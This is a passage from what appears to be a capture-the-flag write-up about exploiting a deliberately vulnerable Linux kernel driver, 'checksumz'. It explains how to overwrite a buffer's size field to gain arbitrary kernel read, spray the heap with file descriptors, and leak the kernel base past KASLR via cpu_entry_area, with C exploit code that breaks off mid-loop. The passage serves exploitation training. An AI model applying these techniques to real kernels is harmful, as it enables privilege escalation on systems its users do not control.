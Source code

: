 Now that we have a heap leak, we need a kernel address leak. We can use the `cpu_entry_area` trick, which is an address
containing kernel pointers, not affected by `kaslr`, at address `0xfffffe0000000000`.

![](01.png)

We can see that starting at address `0xfffffe0000000004` we have some kernel pointers. But first, we need to transform
the read primitive into a more powerful one.

We have the `checksumz_llseek` function, which is called when the user calls `lseek` on the file descriptor. However,
we are limited by the `->size` field of the buffer.

The write function doesn't even implement a bounds check, but we can write 16 bytes at most. We can use the read function
to advance the `->pos` field once again to 511, and use the write function to overwrite the following 16 bytes, which consist
of 1 byte left from `->state`, the full `->size` field and 7 out of 8 bytes of the `->read` field. If we set the `->size` field
to `0xffffffffffffffff`, we can set `->pos` to anything we want, then use the read function to achieve an arbitrary read primitive.

However, the read function uses `buffer->state` as the starting point. Due to `kaslr`, we do not know where that is. Even if we
achieved a heap leak, we cannot reliably compute the address of the buffer structure, since `->name` is allocated separately.
We can do a heap spray by allocating large amounts of `checksum_buffer`s (by calling `open` on the char device) and choose a random
offset from the heap leak (say, `-0x400`). Then, for each new file descriptor created, try to read the `cpu_entry_area`, assuming
that the address of the buffer is the computed address with the offset. One of the descriptors will most probably be allocated
at that offset. I found that this technique is pretty reliable, and only failed 2 or 3 times out of tens of runs.

We know a kernel address when we see one: it starts with `0xFFFFFFFF`. Also, after subtracting the offset of the leak,
the result (kernel base) should end in five zeroes.

```c 
int fds[FD_COUNT] = { 0 };

for (int i = 0; i < ARRAY_SIZE(fds); i += 1) {
    fds[i] = open(TARGET, O_RDWR);
}

size_t heap_leak = leak_heap(fds[0]);
printf("Heap leak: %p\n", heap_leak);
size_t current_buffer = heap_leak - 0x400;
printf("Current buffer: %p\n", current_buffer);

size_t kernel_base = 0;
// spray pages to find which one contains the desired offset
for (int i = 0; i < ARRAY_SIZE(fds); i += 1) {
    int fd = fds[i];
    size_t kernel_leak = try_read_kernel(fd, current_buffer, i != 0);
    // kernel base has higher dword filled with 1s
    if (kernel_leak >> 32 != 0xFFFFFFFF || kernel_leak == 0xFFFFFFFFFFFFFFFF) {
        continue;
    }
    printf("Kernel leak: %p\n", kernel_leak);
    kernel_base = kernel_leak - 0x1008e00;
    // kernel base has lower bytes 0
    if (kernel_base & 0xfffff != 0) {
        continue;
```